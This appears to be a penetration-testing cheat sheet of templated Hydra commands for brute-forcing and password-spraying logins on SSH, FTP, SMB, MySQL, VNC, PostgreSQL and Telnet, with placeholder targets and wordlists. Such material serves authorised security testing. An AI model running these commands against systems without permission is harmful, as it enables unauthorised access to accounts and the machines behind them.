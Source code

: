 # Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - ssh - file "login:pass" format - specify port
#plateform/linux #target/remote #protocol/ssh #port/custom #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -t 4 -s <port> -C <file_login_pass> <ip> ssh 
```

## Hydra - ftp - 21 
#protocol/ftp #port/21 #plateform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - smb - 445
#protocol/smb #port/445 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - mysql - 3306
#protocol/mysql #port/3306 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql 
```

## Hydra - vnc - 5900
#protocol/vnc #port/5900 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - postgres - 5432
#protocol/postgres #port/5432 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - telnet - 23
#protocol/telnet #port/23 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

= userlist: users.txt
= passlist: pass.txt
